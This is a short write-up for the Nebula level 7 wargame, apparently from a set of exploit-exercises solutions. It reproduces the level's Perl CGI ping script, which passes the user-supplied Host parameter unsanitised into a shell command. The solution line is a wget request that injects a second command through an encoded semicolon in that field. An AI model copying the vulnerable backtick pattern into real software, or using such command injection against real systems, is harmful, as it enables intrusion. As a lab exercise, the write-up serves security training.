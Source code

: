 .. _nebula07:

.. role:: bash(code)
	  :language: bash

.. role:: pearl(code)
	  :language: perl
		     
Nebula 7
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level07/

**Source Code**

.. code-block:: perl
		
		#!/usr/bin/perl

		use CGI qw{param};

		print "Content-type: text/html\n\n";

		sub ping {
		    $host = $_[0];

		    print("<html><head><title>Ping results</title></head></body><pre>");

		    @output = `ping -c 3 $host 2>&1`;
		    foreach $line (@output) { print "$line"; }

		    print("</pre></body></html>");

		}

		# check if Host set. if not, display normal page, etc

		ping(param(“Host”))

Solution
--------

:bash:`wget nebula'sIP/index.cgi?Host=%3Bgetflag`

